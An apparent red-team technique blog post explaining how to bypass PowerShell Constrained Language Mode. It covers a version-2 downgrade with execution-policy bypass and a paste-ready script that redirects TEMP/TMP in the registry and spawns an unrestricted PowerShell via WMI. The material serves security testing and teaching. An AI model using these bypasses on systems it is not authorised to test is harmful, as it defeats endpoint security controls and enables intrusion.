 ```yaml
---
title:  "CLM Bypass"
date:   2021-10-17 19:00:00 +0000
categories: [techniques]
tags: [windows, PowerShell]
---
```


It is common during engagements to find that CLM (Constrained Language Mode) is configured on PowerShell as a SafeGuard or control against malicous activity.
This is a common misconception as there are many ways that CLM can be bypassed.
First check that CLM is in place by executing the following:

```
$ExecutionContext.SessionState.LanguageMode
```

If you want to set the Session to CLM from Full for testing then run:

```
$ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"
```

I will leave it to the reader to make sure that the default is using CLM and not Full mode if testing.

Or if you want to change the PowerShell version then simplay add the arguments as per above.

The most common route is to simply downgrade to version 2 by using the '--version 2' argument.


```
powershell.exe -Version 2
```

If you want to bypass the execution policy then append the following:

```
powershell.exe -Version 2 -ExecutionPolicy bypass
```

Although this will likely work if PowerShell version 2 is installed alot of tools may not work to their full potential or simply not fit into your requirements using the legacy version.

There are tools out there to help ofcourse, these are usually execuable files which will touch disk and may not be what you want to do.

The following method can be simply pasted into a PowerShell window and a new PowerShell session is spawned as either the current PowerShell Version, or if needed, you could change the version to any other (2,3,4,5,6,7)


```
$CurrTemp = $env:temp
$CurrTmp = $env:tmp
$TEMPBypassPath = "C:\windows\temp"
$TMPBypassPath = "C:\windows\temp"

Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value "$TEMPBypassPath"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value "$TMPBypassPath"

Invoke-WmiMethod -Class win32_process -Name create -ArgumentList "Powershell.exe"
sleep 5

#Set it back
Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value $CurrTmp
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value $CurrTemp
```

Or if you want to change the PowerShell version then simply add the arguments as per above.

```
$CurrTemp = $env:temp
$CurrTmp = $env:tmp
$TEMPBypassPath = "C:\windows\temp"
$TMPBypassPath = "C:\windows\temp"

Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value "$TEMPBypassPath"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value "$TMPBypassPath"

Invoke-WmiMethod -Class win32_process -Name create -ArgumentList "Powershell.exe -Version 2 -ExecutionPolicy bypass"
sleep 5

#Set it back
Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value $CurrTmp
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value $CurrTemp
```
